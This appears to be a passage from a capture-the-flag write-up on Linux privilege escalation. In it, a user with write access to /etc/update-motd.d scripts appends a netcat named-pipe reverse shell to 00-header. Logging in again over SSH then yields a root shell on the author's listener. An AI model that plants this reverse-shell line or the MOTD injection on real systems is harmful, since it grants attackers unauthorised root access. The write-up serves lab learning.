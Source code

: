 Okay, james has to have access to ssh motd. And we check it with:

```bash
james@osboxes:~$ cd /etc/update-motd.d/
james@osboxes:/etc/update-motd.d$ ls -la
total 44
drwxr-xr-x   2 root root   4096 Mar 10  2021 .
drwxr-xr-x 134 root root  12288 Mar 10  2021 ..
-rwxrwxr-x   1 root james  1220 Mar 10  2021 00-header
-rwxrwxr-x   1 root james     0 Mar 10  2021 00-header.save
-rwxrwxr-x   1 root james  1157 Jun 14  2016 10-help-text
-rwxrwxr-x   1 root james    97 Dec  7  2018 90-updates-available
-rwxrwxr-x   1 root james   299 Jul 22  2016 91-release-upgrade
-rwxrwxr-x   1 root james   142 Dec  7  2018 98-fsck-at-reboot
-rwxrwxr-x   1 root james   144 Dec  7  2018 98-reboot-required
-rwxrwxr-x   1 root james   604 Nov  5  2017 99-es
```

Yeah, he has it. Thus, privesc is easy. Just inject bash reverse shell in 00-header:

```bash
james@osboxes:/etc/update-motd.d$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
        # Fall back to using the very slow lsb_release utility
        DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.61.18 4443 >/tmp/f
```

After modification, we need to trigger motd, so, relogin via ssh and get a shell as root:

```bash
nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.11.61.18] from (UNKNOWN) [10.10.145.15] 43194
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```
